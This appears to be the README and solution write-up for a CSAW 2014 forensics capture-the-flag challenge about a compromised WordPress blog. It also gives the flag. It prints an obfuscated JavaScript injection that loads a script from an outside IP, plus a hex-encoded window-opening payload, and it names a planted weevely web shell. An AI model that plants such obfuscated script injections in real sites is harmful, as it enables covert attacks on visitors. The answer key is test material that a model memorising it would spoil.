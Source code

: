 # Fluffy No More
## Author
Antoniweicz
## Points
300
## Category
Forensics
## Description
OH NO WE'VE BEEN HACKED!!!!!! -- said the Eye Heart Fluffy Bunnies Blog owner. Life was grand for the fluff fanatic until one day the site's users started to get attacked! Apparently fluffy bunnies are not just a love of fun furry families but also furtive foreign governments. The notorious ""Forgotten Freaks"" hacking group was known to be targeting high powered politicians. Were the cute bunnies the next in their long list of conquests!??
Well... The fluff needs your stuff. I've pulled the logs from the server for you along with a backup of it's database and configuration. Figure out what is going on!
## Flag
`key{Those Fluffy Bunnies Make Tummy Bumpy}`
## Solution
Within the apache log file (/var/logs/apache2/access.log) is an indicator of attack for the MailPoet vulnerability. Details here: [http://blog.sucuri.net/2014/07/mailpoet-vulnerability-exploited-in-the-wild-breaking-thousands-of-wordpress-sites.html](http://blog.sucuri.net/2014/07/mailpoet-vulnerability-exploited-in-the-wild-breaking-thousands-of-wordpress-sites.html)
I dont expect people to find that really, but maybe they will. The vulnerability is exploited and uploads two files to
```
/var/www/html/wp-content/uploads/wysija/themes/weblizer
```
template.php is a weevely shell. There is also a single execution command entry in the access.log of the attacker's modifications to the wordpress install, but people might not notice that either.
The attacker modified `/var/www/html/wp-content/themes/twentythirteen/js/html5.js` which only gets rendered if a user is using IE9 or below.
```
<!--[if lt IE 9]>
	<script src="http://blog.eyeheartfluffybunnies.com/wp-content/themes/twentythirteen/js/html5.js"></script>
	<![endif]-->
```
This is not attacker added code, but naturally occuring. You can see this from the source on the webpage. My expectation is people will actually create a LAMP server to replicate and notice this condition or do a diff of the plugins/themes.
However they get there, they'll hopefully notice that html5.js has a modification:
```
var g="ti";var c="HTML Tags";var f=". li colgroup br src datalist script option .";f = f.split(" ");c="";k="/";m=f[6];for(var i=0;i<f.length;i++){c+=f[i].length.toString();}v=f[0];x="\'ht";b=f[4];f=2541*6-35+46+12-15269;c+=f.toString();f=(56+31+68*65+41-548)/4000-1;c+=f.toString();f="";c=c.split("");var w=0;u="s";for(var i=0;i<c.length;i++){if(((i==3||i==6)&&w!=2)||((i==8)&&w==2)){f+=String.fromCharCode(46);w++;}f+=c[i];} i=k+"anal"; document.write("<"+m+" "+b+"="+x+"tp:"+k+k+f+i+"y"+g+"c"+u+v+"j"+u+"\'>\</"+m+"\>");
```
This is an obfuscated way to do a script include from [http://128.238.66.100/analytics.js](http://128.238.66.100/analytics.js)
Students could notice this, or maybe use developer mode in the browser to see the js include.
Once to `analytics.js`, there is more obfuscation its basically two giagantic blocks of dummy code around:
```
var _0x91fe=["\x68\x74\x74\x70\x3A\x2F\x2F\x31\x32\x38\x2E\x32\x33\x38\x2E\x36\x36\x2E\x31\x30\x30\x2F\x61\x6E\x6E\x6F\x75\x6E\x63\x65\x6D\x65\x6E\x74\x2E\x70\x64\x66","\x5F\x73\x65\x6C\x66","\x6F\x70\x65\x6E"];window[_0x91fe[2]](_0x91fe[0],_0x91fe[1]);
```
This opens a new window that renders [http://128.238.66.100/announcement.pdf](http://128.238.66.100/announcement.pdf)
I expect that students will either use a user-agent switcher or <IE9 to get the request for announcement.pdf. I dont know that anyone will deal with the javascript.
Then the announcement.pdf has a file stream in it, you can
```
pdfextract announcement.pdf
cd announcement.dump/streams
cat steam_8
```
to see another javascript obfuscated version of:
```
var key = "YOU DID IT! CONGRATS! fwiw, javascript obfuscation is sofa king dumb  :) key{Those Fluffy Bunnies Make Tummy Bumpy}";
```
## Setup

## Notes
CS14-FNM-Challenge/CSAW2014-FluffyNoMore-v0.1.tar.bz2
	The Challenge itself, a compressed file containing
	various artifacts from a compromised webserver.

CS14-FNM-ForJudges-DontPublish/
	Directory containing confidential data related to the
	challenge

CS14-FNM-ForJudges-DontPublish/mkbkup.sh
	Just a script to create the data that gets included
	within CSAW2014-FluffyNoMore-v0.1.tar.bz2

S14-FNM-ForJudges-DontPublish/analytics.js
	.js file that needs to be published to:
		http://128.238.66.100/analytics.js

S14-FNM-ForJudges-DontPublish/announcement.pdf
	.pdf file that needs to be published to:
		http://128.238.66.100/announcement.pdf

14-FNM-ForJudges-DontPublish/Solution.txt
	Solution write up
